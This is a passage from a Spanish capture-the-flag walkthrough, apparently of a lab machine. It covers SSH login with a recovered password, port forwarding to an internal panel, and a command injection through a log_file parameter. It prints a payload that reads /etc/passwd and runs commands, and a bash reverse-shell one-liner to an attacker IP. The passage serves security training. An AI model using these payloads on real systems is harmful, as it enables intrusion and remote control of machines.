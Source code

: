 ![image](https://github.com/user-attachments/assets/2b696df0-ff87-49ef-bcfe-07f59dd74d09)



Dado que tenemos la contraseña del usuario amay, podemos verificar si podemos conectarnos vía ssh con estas credenciales y vemos que sí:

```bash
ssh amay@10.10.11.28
mychemicalromance
```

![image](https://github.com/user-attachments/assets/f5d5f45d-ff9c-4ed8-8a4f-5a650d97d03b)


En este punto se me ocurre que podemos realizar port forwading del puerto 8080 a nuestro host de ataque usando para ello el puerto ssh:

```bash
ssh -L 8081:127.0.0.1:8080 amay@10.10.11.28
```

A continuación desde nuestro host de ataque accedemos a este servicio y encontramos un panel de autenticación HTTP básica. Al probar con las credenciales amay:mychemicalromance logramos acceder:


![image](https://github.com/user-attachments/assets/d0db2fa9-b842-4d80-8d76-ece0b193b814)


## Explotación

No hallamos nada relevante a priori, pero sí que hay un combo que permite seleccionar el archivo del cuál quieres leer el log, vamos a revisar cómo se está realizando la petición interceptándola con Burp Suite y comprobamos que el parámetro log_file no está debidamente sanitizado y que es vulnerable a path traversal:

![image](https://github.com/user-attachments/assets/d1410eb5-b1ec-4996-bfd8-4258bb4d0890)


Sin embargo no podemos leer otros archivos, parece que se está aplicando algún tipo de filtrado. Podemos usar el carácter ; en combinación con # para evadir estos filtros de la siguiente forma:

```
log_file=/etc/passwd;whoami #&analyze_log=
```

![image](https://github.com/user-attachments/assets/5a421240-ed8a-4422-a085-b150eb79f723)


De esta forma vemos que además de listar el contenido del fichero /etc/passwd también se ejecuta el comando whoami.

Podríamos aprovechar esto para ganar una reverse shell  de la siguiente forma:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.45/4444 0>&1'
```

Aunque necesitaremos codificarla como URL
